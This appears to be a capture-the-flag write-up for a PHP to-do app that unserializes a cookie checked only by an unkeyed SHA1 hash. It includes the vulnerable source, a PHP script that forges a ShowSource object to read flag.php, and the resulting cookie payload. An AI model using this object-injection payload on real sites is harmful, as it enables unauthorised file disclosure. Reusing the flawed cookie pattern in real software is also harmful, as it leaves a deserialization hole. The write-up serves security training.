


# To Do List

In the given source you can see they are using `unserialize` method in php which we can exploit

```php
<?php

Class ShowSource{
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

if(isset($_GET['source'])){
    $s = new ShowSource();
    $s->source = __FILE__;
    echo $s;
    exit;
}

$todos = [];

if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 40);
    $m = substr($c, 40);
    if(sha1($m) === $h){
        $todos = unserialize($m);
    }
}

if(isset($_POST['text'])){
    $todo = $_POST['text'];
    $todos[] = $todo;
    $m = serialize($todos);
    $h = sha1($m);
    setcookie('todos', $h.$m);
    header('Location: '.$_SERVER['REQUEST_URI']);
    exit;
}
?>
```

I wrote this php code to exploit the `unserialize`

```php
<?php
Class ShowSource
{
    public $source = "flag.php";
    public function __toString()
    {
        return highlight_file($this->source, true);
    }
}

$s = new ShowSource();
$serialized = serialize([$s]);
$payload = sha1($serialized).$serialized;

echo $payload."\n";
echo urlencode($payload)."\n";

?>
```

After running the code The output is

```
db2a103dd4cc5d8271a28152d8f3de49379d9ad8a:1:{i:0;O:10:"ShowSource":1:{s:6:"source";s:8:"flag.php";}}
db2a103dd4cc5d8271a28152d8f3de49379d9ad8a%3A1%3A%7Bi%3A0%3BO%3A10%3A%22ShowSource%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

As you can see it is storing all the todo list items in a todos cookie so now we just change the cookie to our urlencoded payload and get the flag




